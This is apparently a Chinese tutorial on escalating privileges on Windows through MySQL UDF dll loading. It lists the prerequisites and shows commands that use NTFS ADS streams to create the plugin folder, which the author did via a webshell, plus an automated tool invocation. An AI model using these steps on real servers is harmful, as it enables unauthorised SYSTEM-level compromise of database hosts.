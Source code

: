 ### UDF提权

UDF(user-defined function)是MySQL的一个拓展接口，也可称之为**用户自定义函数**

用户可以通过自己增加函数对mysql功能进行扩充，文件后缀为.dll

**利用条件：**

> `Server 2003、Windows XP、Windows 7`
>
> 已知mysql中root的账号密码
>
> mysql版本 < 5.2 , UDF导出到系统目录c:/windows/system32/
>
> mysql版本 > 5.2 ，UDF导出到安装路径MySQL\Lib\Plugin\
>
> secure_file_priv为空

**提权原理：**

> 利用root权限，创建带有调用cmd函数的’udf.dll’(动态链接库)
>
> 当我们把’udf.dll’导出指定文件夹引入Mysql时，其中的调用函数拿出来当作mysql的函数使用。
>
> 这样我们自定义的函数才被当作本机函数执行。
>
> 在使用CREAT FUNCITON调用dll中的函数后，mysql账号转化为system权限，从而提权

可以直接查询插件安装目录：

```bash
show variables like %plugin%
```

 如果plugin不存在，可以用NTFS ADS流来创建文件夹并导入dll

```bash
#先找到Mysql的目录select @@basedir;#利用ADS流来创建plugin文件夹（测试并不能成功创建）select 'It is dll' into dumpfile 'C:\\phpStudy\\PHPTutorial\\MySQL\\lib\\plugin::$INDEX_ALLOCATION';
```

网上流传的是在数据库中直接就能利用ADS流创建plugin文件夹，但我测试发现直接导入文件可以，并不能创建文件夹。

但是利用ADS流确实能创建文件夹，如以下命令（可以自己测试一下）

```bash
echo 123 > test::$INDEX_ALLOCATION
#这条命令会创建一个test文件夹
```

所以我是用`Webshell`这样创建的plugin文件夹：

```bash
echo 123 > C:\phpStudy\PHPTutorial\MySQL\lib\plugin::$INDEX_ALLOCATION
```

**有一个自动化工具**：https://github.com/T3st0r-Git/HackMySQL 

```bash
#上边的创建plugin目录步骤完成后直接利用即可
python root.py -a 192.168.2.9 -proot -e "whoami"
```
